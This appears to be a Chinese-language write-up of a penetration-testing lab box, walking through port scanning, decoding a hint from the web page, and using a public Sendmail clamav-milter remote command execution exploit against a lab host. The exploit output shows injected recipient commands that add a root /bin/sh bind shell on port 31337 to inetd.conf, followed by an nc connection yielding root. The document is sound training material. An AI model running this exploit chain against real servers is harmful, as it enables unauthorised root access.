 # 端口枚举

```bash
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
139/tcp open  netbios-ssn
199/tcp open  smux
445/tcp open  microsoft-ds
```

## 网页枚举

访问80端口的时候发现了一连串的二进制数字.

<img src="../Images/image-20230807112115001.png" alt="image-20230807112115001" style="zoom:80%;" />

使用`CyberChef` 去转成可理解的字符串

<img src="../Images/image-20230807112133499.png" alt="image-20230807112133499" style="zoom:80%;" />

```markdown
ifyoudontpwnmeuran00b
```

但是尝试使用这个字符串去登录之后无果, 后面尝试去用`searchsploit`查找相关的漏洞

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ searchsploit clamav                       
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Sendmail with clamav-milter < 0.91.2 - Remote Command Execution                   | multiple/remote/4761.pl
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

从`searchsploit`下载下来`.pl`的RCE脚本文件, 用`perl`去利用

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ perl 4761.pl 192.168.178.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.178.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 7 Aug 2023 03:30:09 -0400; (No UCE/UBE) logging access from: [192.168.45.155](FAIL)-[192.168.45.155]
250-localhost.localdomain Hello [192.168.45.155], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 3777U9if004267 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

上面的输出结果表示`31337`端口将会被打开, 使用`nmap`扫描, 确实已经打开

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ nmap -p31337 192.168.178.42                         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-07 08:05 +0430
Nmap scan report for 192.168.178.42
Host is up (0.23s latency).

PORT      STATE SERVICE
31337/tcp open  Elite

Nmap done: 1 IP address (1 host up) scanned in 7.19 seconds

```

最后使用`nc`去连接, 发现可以直接获取到root权限，所以并不需要进行提权

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/glider]
└─$ nc 192.168.178.42 31337    
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
ls /root/proof.txt
/root/proof.txt
cat /root/proof.txt
cd51bf4074919c204c669df30e4656ac
```

